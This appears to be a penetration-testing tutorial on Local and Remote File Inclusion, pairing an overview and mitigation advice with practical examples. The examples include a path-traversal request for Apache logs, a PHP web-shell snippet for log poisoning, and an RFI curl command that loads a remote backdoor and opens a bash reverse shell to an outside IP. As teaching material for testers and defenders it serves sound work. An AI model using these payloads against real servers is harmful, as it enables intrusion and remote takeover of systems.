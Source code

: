 # File Inclusion Vulnerabilities: LFI and RFI RCE with URL encoding

## Technical Executive Summary
        

            Saverity: Medium - Critical 
                Depends on the content that you can display

    File Inclusion vulnerabilities, including Local File Inclusion (LFI) and Remote File Inclusion (RFI), are critical security issues that can lead to severe consequences such as unauthorized access, data breaches,     and remote code execution. These vulnerabilities arise when a web application allows the inclusion of files without proper validation and sanitization of user inputs.
    Local File Inclusion (LFI)

    LFI occurs when a web application includes files from the local server's filesystem. This can be exploited to read sensitive files, execute code, and gain unauthorized access to the system. One common technique         to exploit LFI is through Log Poisoning, where malicious code is injected into log files that are later included by the web application.
    Remote File Inclusion (RFI)

    RFI is a more dangerous variant that allows the inclusion of files from remote servers. This can lead to remote code execution by including and executing malicious scripts hosted externally. Exploiting RFI            typically involves hosting a malicious file and crafting a URL to include it in the vulnerable web application.
    Exploitation Techniques

    Identifying Vulnerabilities: Penetration testers use various techniques and tools to identify LFI and RFI vulnerabilities, such as fuzzing and analyzing HTTP responses.
    Log Poisoning: For LFI, testers inject malicious payloads into log files or other writable files on the server to execute code.
    Crafting Exploit URLs: For RFI, testers prepare and host malicious files on remote servers and craft URLs to include these files in the web application.

# Mitigation Strategies

To mitigate these vulnerabilities, web developers should:

    Validate and sanitize all user inputs.
    Disable unnecessary features like allow_url_include in PHP.
    Implement strict access controls to sensitive files and directories.
    Regularly update and patch web application frameworks and libraries.

# Role of Penetration Testers

Penetration testers play a crucial role in identifying and mitigating file inclusion vulnerabilities. By simulating real-world attack scenarios, they help organizations understand their security posture and implement effective countermeasures. Testers use a combination of manual techniques and automated tools to discover vulnerabilities and provide actionable recommendations for remediation.
Conclusion
File Inclusion vulnerabilities pose a significant risk to web applications and can lead to devastating security breaches if not properly addressed. Understanding the mechanisms behind LFI and RFI, along with employing robust security practices, is essential for protecting web applications from these attacks. Penetration testers provide valuable insights and expertise in identifying and mitigating these vulnerabilities, ensuring the security and integrity of web systems.



## Local File Inclusion (LFI)

### Overview

Local File Inclusion (LFI) vulnerabilities allow attackers to include files from the server's filesystem into the running code of a web application. This can lead to Remote Code Execution (RCE) if the included files contain executable code.

### Difference Between LFI and Directory Traversal

- **Directory Traversal**: Allows reading files outside the web root directory.
- **File Inclusion**: Allows including and potentially executing files within the web application's running code.

### Exploiting LFI with Log Poisoning

#### Step-by-Step Example

1. **Identify the Vulnerability**: Find a vulnerable parameter in the web application that accepts file paths.
2. **Modify Log Entries**: Use tools like `curl` to send data to the web application that gets logged.
3. **Include the Log File**: Use the LFI vulnerability to include the modified log file, executing the payload.

#### Practical Example

```bash
kali@kali:~$ curl http://example.com/meteor/index.php?page=../../../../../../../../../var/log/apache2/access.log
192.168.50.1 - - [12/Apr/2022:10:34:55 +0000] "GET /meteor/index.php?page=admin.php HTTP/1.1" 200 2218 "-" "Mozilla/5.0 (X11; Linux x86_64; rv:91.0) Gecko/20100101 Firefox/91.0"
```
Modify the User Agent in Burp Suite to include a PHP code snippet:
```bash
<?php echo system($_GET['cmd']); ?>
```
Send the modified request and include the log file:
```bash
../../../../../../../../../var/log/apache2/access.log&cmd=ps
```
Output Example
```bash
www-data@fbea640f9802:/var/www/html/meteor$ ls
admin.php
bavarian.php
css
fonts
img
index.php
js
```
# Remote File Inclusion (RFI)
## Overview

Remote File Inclusion (RFI) vulnerabilities allow attackers to include files from remote servers. This can be more dangerous than LFI because it allows attackers to execute code from external sources.
Exploiting RFI
Step-by-Step Example

    Identify the Vulnerability: Find a vulnerable parameter in the web application that accepts file paths.
    Host a Malicious File: Prepare and host a malicious PHP file on a remote server.
    Craft the Exploit URL: Include the remote file in the vulnerable parameter and pass commands to it.

Practical Example
```bash
curl "http://example.com/meteor/index.php?page=http://192.168.45.184/backdoor.php&cmd=bash%20-c%20%22bash%20-i%20%3E%26%20%2Fdev%2Ftcp%2F192.168.45.184%2F4444%200%3E%261%22"
```

### Conclusion

By understanding and exploiting RFI vulnerabilities, attackers can include and execute remote files on a target system, leading to severe security breaches. Proper security measures, such as disabling allow_url_include and validating input parameters, are essential to prevent such attacks.


